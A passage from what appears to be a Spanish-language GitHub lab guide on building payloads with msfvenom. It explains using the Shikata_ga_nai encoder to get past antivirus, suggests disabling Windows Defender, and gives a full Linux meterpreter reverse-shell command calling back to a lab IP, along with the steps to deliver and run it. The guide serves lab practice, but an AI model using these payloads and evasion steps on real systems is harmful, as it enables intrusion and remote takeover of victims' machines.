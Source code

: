 > [!NOTE]
> El encoder Shikata_ga_nai es un encoder polimórfico que permite modificar el código del payload en múltiples formas. Esto hace que sea más difícil para los sistemas antivirus detectarlo, lo que mejora la posibilidad de que el payload pase desapercibido.

> [!IMPORTANT]
> Ponte en escucha con Metasploit usando el exploit handler con el mismo payload y puerto 2222. Inicia el servidor HTTP en la máquina atacante y descarga el archivo en la víctima desde el navegador.

**¿Ha sido detectado el payload por Windows Defender?**

Si estás utilizando Windows Defender o un antivirus, es posible que detecte el payload debido a su naturaleza maliciosa, incluso con el encoder **Shikata_ga_nai**. En muchos casos, los antivirus y Windows Defender pueden detectar los payloads generados por **MSFVenom**.
Si quieres continuar con el proceso para probarlo desactiva **Windows Defender** temporalmente i ejecuta el archivo.


### Payload para Linux
Se generará un **payload para Linux** que establecerá una conexión inversa (reverse shell) desde la máquina víctima a la máquina atacante. Se usará **Ubuntu 24.04.2 LTS** como sistema objetivo.

```
msfvenom --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.4 LPORT=3333 -e x86/shikata_ga_nai -f elf -o payloadLinux.elf
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/creacion_payload3.png" alt="creacion_payload3" style="border-radius: 10px;">
</p>

<br>

> [!IMPORTANT]
> Inicia el servidor HTTP en la máquina atacante y descarga el archivo en la víctima desde el navegador. Ponte en escucha con Metasploit usando el exploit handler con el mismo payload para Linux y puerto 3333

Una vez descargado el archivo en la máquina Ubuntu, es necesario darle permisos de ejecución y ejecutarlo:
```
chmod +x payloadLinux.elf
./payloadLinux.elf
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/permisos.png" alt="permisos" style="border-radius: 10px;">
</p>
